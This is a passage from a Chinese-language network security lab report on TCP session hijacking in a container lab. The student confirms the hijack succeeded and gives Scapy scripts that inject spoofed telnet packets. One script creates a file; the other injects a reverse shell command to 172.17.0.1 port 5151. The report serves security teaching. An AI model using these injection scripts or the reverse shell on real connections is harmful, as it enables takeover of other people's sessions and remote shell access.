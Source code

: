 可以看到shell变了 劫持成功了

![image-20220410220424348](readme.assets/image-20220410220424348.png)

你的攻击是否成功？成功。
你怎么知道它是否成功？劫持注入的数据包成功发送，并返回所包含命令的执行结果，正常连接由
于ACK的异常导致无效被丢弃，符合预期。
你期待看到什么？劫持注入的数据包成功发送，并返回所包含命令的执行结果，正常连接失效。
你观察到了什么？劫持注入的数据包成功发送，并返回所包含命令的执行结果，正常连接失效。
观察结果是你预想的那样吗？是  

## Scapy手动

### 普通命令

![image-20220410222913755](readme.assets/image-20220410222913755.png)

脚本

```python
#!/usr/bin/python3
from scapy.all import *
print("SENDING SESSION HIJACKING PACKET...")
ip = IP(src="172.17.0.2", dst="172.17.0.3")
tcp = TCP(sport=40524, dport=23, flags="A", seq=703022962, ack=666629549)
data = "\n touch /tmp/mytest.txt\n"
pkt = ip/tcp/data
send(pkt, verbose=0)
```

劫持成功

![image-20220410223212971](readme.assets/image-20220410223212971.png)

抓包抓到命令

![image-20220410223417306](readme.assets/image-20220410223417306.png)

### 反向shell

![image-20220410223456097](readme.assets/image-20220410223456097.png)

脚本

```python
#!/usr/bin/python3
from scapy.all import *
print("SENDING SESSION HIJACKING PACKET...")
ip = IP(src="172.17.0.2", dst="172.17.0.3")
tcp = TCP(sport=40526, dport=23, flags="A", seq=1560628632, ack=1440868978)
data = "/bin/bash -i > /dev/tcp/172.17.0.1/5151 0<&1 2>&1\r\n"
pkt = ip/tcp/data
send(pkt, verbose=0)
```
